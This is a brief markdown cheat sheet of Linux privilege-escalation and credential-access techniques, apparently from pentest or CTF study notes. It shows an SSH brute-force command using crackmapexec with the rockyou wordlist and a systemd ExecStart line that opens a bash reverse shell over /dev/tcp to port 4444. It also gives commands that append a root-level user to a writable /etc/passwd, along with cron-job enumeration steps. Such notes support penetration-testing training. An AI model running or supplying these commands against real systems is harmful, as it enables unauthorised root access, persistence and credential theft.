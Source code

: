 
#### Credential Access

- reused passwords
- found credentials from config files
- credentials from local DB
- credentials from bash history 
- reused ssh keys
- check group privilege
- brute force attack
```
crackmapexec ssh <ip> -u <user> -p /usr/share/wordlists/rockyou.txt
```
#### Abusing Cron Jobs

we can modify the cron jobs that are running and add lines for revers shell for example 
if the job run as high privilege user we get high privilege shell

```
cat /etc/crontab
ls -lah /etc/cron*
crontab -l
grep "CRON" /var/log/syslog
```

- search for con job that run a file as root
- search for writeable Cron Job dependency files
- run pspy

#### Services
list writable services
```
find / -writable -name "*.service" 2>/dev/null
```

add
```
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<local-ip>/4444 0>&1'
```
#### Abusing Password Authentication

if there is misconfiguration and we have privilege to write to **/etc/passwd** we can add root user
```
# run on the terget

# generate a password hash
openssl passwd pass123

# write to /etc/passwd
echo "<user>:<hashed_password>:0:0:root:/root:/bin/bash" >> /etc/passwd
```
https://binaryregion.wordpress.com/2021/06/05/privilege-escalation-linux-adding-a-new-root-user/
MD5, SHA-256, or SHA-512

- /etc/passwd - write permission
- /etc/shadow - read permission
- /etc/sudoers - write permission
- /root/.ssh/ - read permissions
